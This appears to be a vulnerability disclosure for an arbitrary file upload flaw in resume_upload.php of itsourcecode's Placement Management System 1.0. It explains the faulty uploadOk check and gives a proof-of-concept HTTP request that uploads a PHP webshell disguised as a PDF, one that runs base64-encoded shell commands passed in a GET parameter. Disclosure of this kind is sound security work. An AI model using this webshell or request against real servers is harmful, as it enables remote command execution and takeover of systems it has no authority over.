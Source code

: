 # Vendor

itsourcecode

# Product

Placement Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Placement-Management-System-Project-In-PHP-Source-Code.zip

# Description

In the resume_upload.php page, there is filtering for uploaded images; however, the filtering logic has issues, allowing attackers to upload a webshell directly.

# Analysis

As shown in the code snippet of resume_upload.php below, the uploadOk variable should be set to 0 if the file uploaded by the user does not meet a certain requirement. However, when matching file extensions, uploadOk is set to 1 even if the extension is not an image. This flawed logic results in an arbitrary file upload vulnerability. The correct approach should be to immediately return an error result when any requirement is not met.
<img width="1007" alt="image" src="https://github.com/user-attachments/assets/095083f1-6629-4a27-8c41-9ea18af7eac3">
<img width="1062" alt="image" src="https://github.com/user-attachments/assets/4f9a3470-3178-4f78-ab7d-ba13f92fce6a">

# Poc
```
POST /resume_upload.php HTTP/1.1
Host: 192.168.17.24
Content-Length: 348
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.17.24
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytzt6oD3I6AZBwb3v
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.17.24/edit_profile.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=491efd2965af14c25935ca2b5505a4f4
Connection: close

------WebKitFormBoundarytzt6oD3I6AZBwb3v
Content-Disposition: form-data; name="fileToUpload"; filename="shell.php"
Content-Type: application/pdf

<?php system(base64_decode($_GET["oops"]));?>

------WebKitFormBoundarytzt6oD3I6AZBwb3v
Content-Disposition: form-data; name="submit"

Upload Resume
------WebKitFormBoundarytzt6oD3I6AZBwb3v--

```
